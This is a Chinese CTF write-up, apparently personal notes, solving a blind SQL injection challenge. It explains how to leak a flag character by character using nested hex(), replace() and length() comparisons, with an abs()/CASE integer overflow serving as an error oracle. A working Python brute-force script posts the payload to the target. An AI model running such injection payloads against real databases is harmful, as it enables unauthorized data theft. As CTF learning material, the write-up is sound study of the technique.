 -
- # 思路
	- 大致思路：
		- 将flag转换成一个只有数字的字符串，然后猜测其的开头，就这样一个字符一个字符地猜测，直到猜出所有的字符
	- 细节：
		- 猜测一个字符串的开头
		  id:: 63f78c53-528a-4b9f-8b54-9e254a8c7636
			- 将猜测的开头从字符串中去掉，如果成功去除则其长度必然变化，检测其长度即可
		- 将数字转为只有阿拉伯数字的字符串
		  id:: 63f78ccb-b747-4493-b196-b40579fc15f9
			- 用符号`||`拼接两个数字即可转为字符串
		- 将任意字符串转为只有阿拉伯数字的字符串
		  id:: 63f78d57-1656-4440-acc0-67f28785b89a
			- 经过两次`hex`运算即可
		- 用后两个技巧配合第一个技巧即可猜测任意字符串的开头
		- 判断两个数字是否相等
			- `abs(case({})when({})then(1)else(0x8000000000000000)end)`
			- 如果相等则不会出错，否则必然出错
- # 脚本
	- ```python
	  def to_hex(s):
	      return "".join([hex(ord(c))[2:].upper() for c in s])
	  
	  known = "flag{"
	  while True:
	      for i in range(32, 128):
	          # 我们先猜测flag的开头是guess
	          guess = known + chr(i)
	          payload = "(select(flag)from(flag))"
	          # 然后我们将flag和guess转为一个只有阿拉伯数字的字符串
	          payload = "hex(hex({}))".format(payload)
	          guess = to_hex(to_hex(guess))
	          # 再然后我们将flag开头的guess替换为"00"
	          payload = "replace({},({}),0||0)".format(payload, "||".join(list(guess)))
	          # 如果替换成功，flag的长度应为如下所示
	          guess_length = 168 - len(guess) + 2
	          # 获取替换后flag的长度
	          payload = "length({})".format(payload)
	          # 判断长度是否真的等于我们猜测的长度，如果等于那么说明替换成功，也就是说我们猜测的是正确的
	          payload = "114514||abs(case({})when({})then(1)else(0x8000000000000000)end)".format(payload, guess_length)
	          # 提交
	          r = requests.post(url, data = {
	              "id": payload
	          })
	          time.sleep(0.2)
	          # 如果替换成功，则不会出错
	          if "error" not in r.text:
	              known += chr(i)
	              print(known)
	              break
	      else:
	          print("Done")
	          print(known)
	          break
	  ```